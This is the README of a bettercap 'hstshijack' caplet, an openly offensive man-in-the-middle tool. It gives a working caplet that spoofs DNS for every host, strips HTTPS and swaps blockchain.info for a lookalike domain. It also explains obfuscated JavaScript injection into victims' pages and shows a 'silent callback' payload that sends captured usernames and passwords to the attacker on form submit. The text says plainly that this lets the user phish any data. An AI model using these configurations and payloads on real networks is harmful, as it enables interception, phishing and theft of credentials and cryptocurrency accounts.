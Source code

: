 <p align="center">
  <img width="420px" src="https://cdn.rawgit.com/yungtravla/cdn/ccdc3b8d/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet

```sh
set hstshijack.log             hstshijack/ssl.log
set hstshijack.payload         hstshijack/payloads/hstshijack-payload.js
set hstshijack.ignore          *
set hstshijack.targets         blockchain.info,*.blockchain.info
set hstshijack.replacements    blockchian.info,*.blockchian.info
#set hstshijack.blockscripts    domain.com,*.domain.com
set hstshijack.custompayloads  *:hstshijack/payloads/sslstrip.js

set http.proxy.script  hstshijack/hstshijack.js
#set net.sniff.output   hstshijack0001.pcap
set net.sniff.verbose  false
set dns.spoof.all      true
net.sniff    on
dns.spoof    on
http.proxy   on
```

### Core payload

This module injects HTML & JS files with a payload (<a href="./payloads/hstshijack-payload.js">**hstshijack-payload.js**</a>) that communicates with this module, revealing all URLs that are discovered in the injected document.

This is done in separate and asynchronous requests so that the bettercap proxy can adjust the host and path for each request, and send a HEAD request to learn each host's response headers for a HTTP request.

### Custom payloads

You can also inject your own JavaScript payload(s) into HTML & JS files from targeted hosts by assigning them to the `hstshijack.custompayloads` variable.

Example:

```sh
hstshijack.custompayloads *:hstshijack/payloads/sslstrip.js,google.com:hstshijack/payloads/google.js,*.google.com:hstshijack/payloads/google.js
```

Once the payload is injected into a page, you can technically phish any data unless the client navigates to a URL that either has strict transport security rules enforced by their browser, or the URL was not stripped due to JavaScript security.

<a href="./payloads/sslstrip.js">**sslstrip.js**</a> is included, which strips the `s` from all `https://` instances in `<a href="...` tags.

### Obfuscation

Your custom payloads are automatically obfuscated by the module.

Any instance beginning with `obf_` will be obfuscated.


Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Silent callbacks

You can write custom payloads that communicate with bettercap without alerting the host.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```
<sup>Note: Every instance of `obf_path_callback` will be replaced with the callback path & every instance of `obf_path_ssl_log` will be replaced with the SSL log path.</sup>

The code above will send a POST request that will be sniffed by bettercap, but not proxied. 

As soon as bettercap receives a silent callback, any request for the targeted host will no longer be spoofed for that client.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript on hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### SSL log

If a host responds with a HTTPS redirect, the module saves this host in the SSL log, and bettercap will from then on spoof SSL connections for this host when possible.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every hostname you assign to `hstshijack.targets` you must assign a replacement domain to the `hstshijack.replacements` variable.

Example:

```sh
set hstshijack.targets       blockchain.info,*.blockchain.info
set hstshijack.replacements  blockchian.info,*.blockchian.info
```

You can try to make them as unnoticeable or obvious as you like, but your options are limited here.
